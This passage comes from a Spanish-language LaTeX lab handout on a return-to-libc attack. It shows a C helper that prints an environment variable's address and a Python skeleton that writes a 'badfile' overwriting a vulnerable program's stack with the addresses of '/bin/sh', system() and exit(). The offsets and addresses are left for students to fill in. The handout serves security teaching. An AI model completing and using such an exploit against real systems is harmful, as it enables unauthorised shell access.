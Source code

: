 \begin{lstlisting}
void main(){
   char* shell =  getenv("MYSHELL");
   if (shell) 
      printf("%x\n", (unsigned int)shell);
}
\end{lstlisting}

Compile el código anterior dentro de un binario llamado \texttt{prtenv}. 
Si el address randomization está desactivado, la dirección de memoria de la variable mostrada por \texttt{prtenv} deberá de coincidir por la que se muestra en el programa vulnerable \texttt{retlib}. Puede verificar ubicando el código mostrado anteriormente dentro de \texttt{retlib.c}. 
Sin embargo tenga en cuenta que la longitud del nombre de programa hace la diferencia, es por eso que elejimos 6 caracteres para \texttt{prtenv} como para 
\texttt{retlib}, ambos nombres deben de tener la misma longitud.



\subsection{Tarea 3: Lanzando el Ataque}

Estamos listos para generar el contenido de nuestro archivo \texttt{badfile}.
Dado que nuestro contenido incluye datos en binario (por ejemplo: las direcciones de las funciones de \texttt{libc}), podemos usar Python para construir el contenido.
A continuación hemos provisto un código genérico con las partes esenciales que deben de ser completadas por ud.


\begin{lstlisting}
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
Necesita encontrar tres direcciones de memoria y los valores para \texttt{X}, \texttt{Y}, y \texttt{Z}. 
Si los valores no son los correctos, el ataque fallará. En el informe de laboratorio deberá de explicar como es que obtuvo los valores para {\tt X}, {\tt Y} y {\tt Z}. Explique su razonamiento o si decide utilizar un enfoque de prueba y error, muestre sus pruebas.


